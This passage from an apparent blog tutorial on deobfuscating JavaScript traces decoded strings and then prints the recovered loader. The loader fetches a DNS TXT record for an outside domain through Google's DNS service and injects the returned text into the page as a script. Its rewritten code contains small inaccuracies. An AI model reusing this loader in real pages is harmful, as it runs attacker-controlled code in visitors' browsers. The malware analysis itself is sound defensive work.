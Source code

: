 ```
_0x58060d(_0x58f7('0x13')): parse
_0x58f7: Input: 20,undefined, output:0x6
_0x58060d: Input: 6,undefined, output:responseText
_0x58060d(_0x58f7('0x14')): responseText
_0x58f7: Input: 21,undefined, output:0x7
_0x58060d: Input: 7,undefined, output:Answer
_0x58060d(_0x58f7('0x15')): Answer
_0x58f7: Input: 22,undefined, output:data
_0x58f7('0x16')): data
_0x58f7: Input: 23,undefined, output:0x8
_0x58060d: Input: 8,undefined, output:createElement
_0x58060d(_0x58f7('0x17)): createElement
_0x58f7: Input: 24,undefined, output:0x9
_0x58060d: Input: 9,undefined, output:script
_0x58060d(_0x58f7('0x18')): script
_0x58f7: Input: 25,undefined, output:0xa
_0x58060d: Input: 10,undefined, output:innerHTML
_0x58060d(_0x58f7('0x19')): innerHTML
_0x58f7: Input: 26,undefined, output:0xb
_0x58060d: Input: 11,undefined, output:substring
_0x58060d(_0x58f7('0x1a')): substring
_0x58f7: Input: 27,undefined, output:length
_0x58f7('0x1b'): length
_0x58f7: Input: 28,undefined, output:body
_0x58f7('0x1c'): c
_0x58f7: Input: 29,undefined, output:0xc
_0x58060d: Input: 12,undefined, output:appendChild
_0x58060d(_0x58f7('0x1d')): appendChild
_0x58060d: Input: 13,undefined, output:send
_0x58060d('0xd'): send

```

Replacing the obfuscated strings with the deobfuscate strings and renaming the variables gives the following:

``` JavaScript
var XMLHTTP = new XMLHttpRequest();
XMLHTTP[Open](Get), "https://dns.google.com/resolve?name=fetch.slzxkcee.glamisbound.com&type=TXT";
XMLHTTP[onreadystatechange] = function() {
    if (XMLHTTP[status] == 0xc8 && XMLHTTP[readyState] == 0x4) {
        var responseTextString = JSON[parse](XMLHTTP[responseText]);
        var dataString = responseTextString[Answer][0x0][data];
        var HTMLDocument = document[createElement](script);
        HTMLDocument[innerHTML] = dataString[substring](0x1, dataString[length] - 0x1);            
        document[length][appendChild](HTMLDocument);
    }
};

XMLHTTP[send]();
```


[1]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image1.png
[2]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image2.png
[3]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image3.png